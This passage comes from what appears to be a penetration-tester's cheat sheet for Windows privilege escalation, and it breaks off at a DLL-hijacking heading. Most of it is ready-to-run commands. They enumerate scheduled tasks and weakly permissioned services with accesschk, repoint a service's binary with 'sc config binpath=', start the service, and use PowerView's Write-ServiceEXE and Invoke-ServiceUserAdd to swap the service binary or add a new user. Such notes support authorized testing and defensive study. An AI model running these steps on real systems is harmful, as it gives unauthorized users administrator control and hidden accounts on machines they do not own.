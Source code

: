 ### Get scheduled tasks and look for paths with full permissions
```
schtasks /query /fo LIST 2>nul | findstr TaskName
dir C:\windows\tasks
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
```


## Services
### Get services with vulnerable permissions 
https://live.sysinternals.com/accesschk.exe  
https://github.com/ankh2054/windows-pentest/blob/master/Privelege/accesschk-2003-xp.exe  
```
accesschk.exe -uwcqv "Everyone" * /accepteula
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -uwcqv "Users" * /accepteula
```

### Get information about service
```
sc qc <service>
```

### Remove dependency
```
sc config <service> depend= /
```

### Set new binary for service
```
sc config <service> binpath= "<path>\<file>.exe"
```

### Start service
```
net start <service>
```

### Or replace binary with powerview
```
Write-ServiceEXE -ServiceName CustomSVC -UserName <newUser> -Password <password> -Verbose
```

### Or change path of executed binary with powerview
```
Invoke-ServiceUserAdd -ServiceName CustomAPP -UserName <userName> -Password <password> -Verbose
```



## DLL Hijacking
### Check running processes and look for paths with full permissions
```
Tasklist /SVC
ps
```

